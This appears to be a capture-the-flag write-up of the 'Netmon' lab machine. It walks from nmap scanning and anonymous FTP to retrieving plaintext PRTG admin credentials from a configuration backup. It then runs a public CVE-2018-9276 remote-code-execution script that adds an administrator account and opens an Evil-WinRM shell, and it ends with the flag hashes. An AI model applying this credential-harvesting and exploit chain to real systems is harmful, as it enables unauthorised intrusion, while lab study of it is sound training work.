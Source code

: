 ```yaml
---
layout: post
title: Netmon
tags: [OSCP, Writeup, Windows]
description: "Netmon write-up"
---
```


![Netmonlogo](/assets/imgs/netmon/netmon.png)

### This is an easy windows box

## Tools used

------

- 


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA netmon 10.10.10.152 -v

PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7m01s, deviation: 0s, median: 7m01s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-04T09:25:49
|_  start_date: 2020-08-04T08:37:26
```

Here’s what nmap teaches us :

- 



![Website](/assets/imgs/netmon/web.PNG)



## Exploit

------

I used the browser to connect to the ftp :

![FTP connected](/assets/imgs/netmon/ftp_connect.PNG)

I see the Users directory, browsing it, I found the user.txt flag !

![FTP flag](/assets/imgs/netmon/ftp.PNG)

Searching where the password was stored for this software, I stumble upon this reddit : [https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) :

```
Automatically generated backups under:
	C:\ProgramData\Paessler\PRTG Network Monitor\Configuration Auto-Backups\

Automatically generated temporary files that may exist:
	C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old
	C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.nul
```



![Config file prtg](/assets/imgs/netmon/config_files.PNG)



```
wget ftp://10.10.10.152/ProgramData/Paessler/PRTG%20Network%20Monitor/PRTG%20Configuration.old.bak
```





```
strings "PRTG Configuration.old.bak" | grep -i prtgadmin -C 1
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
              
                <login>
                  prtgadmin
                </login>
```



I now have credentials :

```
login : prtgadmin
password : PrTg@dmin2018
```

I tried to connect to the website with those credentials, but it didn't works ! Then I remember that the box was release in 2019, so I change the password : PrTg@dmin2019 and it works.

![Website connected](/assets/imgs/netmon/connected_web.PNG)



```
bash prtg-exploit.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=ezRGMjU3MzU5LTJCNDMtNEYzOC05M0EyLUIwNzc4ODQxMzFGOH0="

[+]#########################################################################[+] 
[*] PRTG RCE script by M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] https://github.com/M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution  CVE-2018-9276 [*] 
[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....

 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```



```
evil-winrm -i 10.10.10.152 -u "pentest" -p 'P3nT3st!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\pentest\Documents> whoami
netmon\pentest
```



## Flags

------

### User.txt

```
dd58ce67b49e15105e88096c8d9255a5
```

### Root.txt

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
3018977fb944bf1878f75b879fba67cc
```